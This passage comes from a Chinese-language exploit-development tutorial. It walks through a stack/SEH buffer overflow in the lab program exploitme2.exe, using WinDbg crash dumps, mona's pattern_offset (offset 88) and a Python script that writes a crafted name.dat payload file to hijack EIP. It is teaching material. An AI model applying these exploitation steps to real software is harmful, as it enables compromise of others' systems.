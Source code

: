 
注意，我已经截下了一段模板，因为它过长而没有在这里展示出来。

我们用WinDbg重启exploitme2.exe，第二次按下F5，得到：

    
    
    (11e0.11e8): Access violation - code c0000005 (first chance)
    First chance exceptions are reported before any exception handling.
    This exception may be expected and handled.
    eax=00000000 ebx=00000000 ecx=64413963 edx=77c2b4ad esi=00000000 edi=00000000
    eip=64413963 esp=0042f310 ebp=0042f330 iopl=0         nv up ei pl zr na pe nc
    cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
    64413963 ??              ???
    

我们可以观察到 `EIP = 0x64413963`. 让我们看看被定位的模板偏移。记住英特尔CPU是小端模式的，因此`0x64413963 =“\x63\x39\x41\x64” = “c9Ad”`。让我们使用mona来判断该偏移：

    
    
    0:000> !py mona pattern_offset 64413963
    Hold on...
    [+] Command used:
    !py mona.py pattern_offset 64413963
    Looking for c9Ad in pattern of 500000 bytes
     - Pattern c9Ad (0x64413963) found in cyclic pattern at position 88
    Looking for c9Ad in pattern of 500000 bytes
    Looking for dA9c in pattern of 500000 bytes
     - Pattern dA9c not found in cyclic pattern (uppercase)  
    Looking for c9Ad in pattern of 500000 bytes
    Looking for dA9c in pattern of 500000 bytes
     - Pattern dA9c not found in cyclic pattern (lowercase)      
    
    [+] This mona.py action took 0:00:00.172000
    

偏移是88。用如下Python脚本来检验那正确的偏移：

    
    
    #!python
    with open('c:\\name.dat', 'wb') as f:
        handler = 'bbbb'
        f.write('a'*88 + handler + 'c'*(10000-88-len(handler)))
    

这次WinDbg输出如下：

    
    
    (1b0c.1bf4): Access violation - code c0000005 (first chance)
    First chance exceptions are reported before any exception handling.
    This exception may be expected and handled.
    eax=00000000 ebx=00000000 ecx=62626262 edx=77c2b4ad esi=00000000 edi=00000000
    eip=62626262 esp=002af490 ebp=002af4b0 iopl=0         nv up ei pl zr na pe nc
    cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010246
    62626262 ??              ???
    

因为`0x62626262=”bbbb”`.这确实是我们想要的。现在我们知道在文件中放入我们想要的地址在哪里了，我们需要判断使用的是哪个地址。在WinDbg中点击View→Memory  并在”Virtual:”下输入 @esp来观察由ESP指向的栈部分，`ESP=0x2af490`，同时，我们的”b”字符在@esp+6d4上。
